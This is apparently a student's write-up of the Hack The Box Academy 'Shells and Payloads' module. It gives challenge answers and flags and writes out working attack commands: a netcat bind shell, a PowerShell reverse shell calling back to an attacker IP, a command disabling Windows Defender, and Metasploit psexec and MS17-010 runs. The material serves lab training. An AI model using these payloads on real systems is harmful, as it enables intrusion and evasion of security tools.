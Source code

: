 # HTB-Shells_and_Payloads

## Table of Contents
1. [Shell Basics](#shell-basics)
    1. [Anatomy of a Shell](#anatomy-of-a-shell)
    2. [Bind Shells](#bind-shells)
    3. [Reverse Shells](#reverse-shells)
2. [Windows Shell](#windows-shells)

## Shell Basics
### Anatomy of a Shell
#### Challenges
1. Which two shell languages did we experiment with in this section? (Format: shellname&shellname)

    The answer is `bash&powershell`.

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer

    We just need to type `$PSversiontable`. The answer is `Core`.

### Bind Shells
#### Payload
1. Binding a Bash shell to the TCP session
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### Challenges
1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

    The answer is `443`.

2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

    First we need ssh to the target. Then we use this payload.
    ```bash
    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.180.140 7777 > /tmp/f
    ```

    After that, from our client, we can connect to that port using nc.

    ```bash
    nc -nv 10.129.180.140 7777 
    ```

    From there we can read the flag. The answer is `B1nD_Shells_r_cool`.

### Reverse Shells
#### Tools
1. [Reverse Shell CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
2. Windows Reverse Shell Common Payload
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Challenges
1. When establishing a reverse shell session with a target, will the target act as a client or server?

    The answer is `client`.

2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

    In the our terminal, we open netcat first.
    ```bash
    sudo nc -lvnp 443
    ```

    Then we need to rdp to the target. After that we disable the Windows Defender antivirus by run this payload on the powershell admin previllege.

    ```powershell
    Set-MpPreference -DisableRealtimeMonitoring $true
    ```

    And then we use this payload into cmd.

    ```cmd
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.234',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

    After that we can type `hostname` in the our terminal. The answer is `Shells-Win10`.

## Payloads
### Tools
1. Metasploit
### Challenges
1. What command language interpreter is used to establish a system shell session with the target?

    The answer is `powerhsell`.

2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

    To solve this, firs we enumerate using nmap.

    ```bash
    nmap -sV -sC -Pn 10.129.201.160
    ```

    We can see it have samba service running.

    ![alt text](assets/Payload1.png)

    Then we use metapsloit.

    ```bash
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set RHOSTS 10.129.201.160
    RHOSTS => 10.129.201.160
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SHARE ADMIN$
    SHARE => ADMIN$
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SMBPass HTB_@cademy_stdnt!
    SMBPass => HTB_@cademy_stdnt!
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SMBUser htb-student
    SMBUser => htb-student
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set LHOST 10.10.15.234
    LHOST => 10.10.15.234
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> exploit
    ```

    After we on Meterpreter session, we type `shell`. We can explore from there. The answer is `staffsalaries.txt`.

## Windows Shells
### Tools
1. MSFVenom & Metasploit-Framework	
2. [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
3. [Mythic C2 Framework](https://github.com/its-a-feature/Mythic)
4. [Nishang](https://github.com/samratashok/nishang)
5. [Darkarmour](https://github.com/bats3c/darkarmour)

### Challenges
1. What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')

    The answer is `.bat`.

2. What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)

    We can find the answer on the module. The answer is `MS17-010`.

3. Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\

    First we can enumerate using metasploit with `auxiliary/scanner/smb/smb_ms17_010`. Based on the result, we can see its vuln to `MS17-010`. Then we use module `exploit/windows/smb/ms17_010_psexec`. We need to set the RHOSTS and LHOST. After run that, we get the meterpreter session, just type `shell` to get the shell. We can get the flag after that. The answer is `EB-Still-W0rk$`.

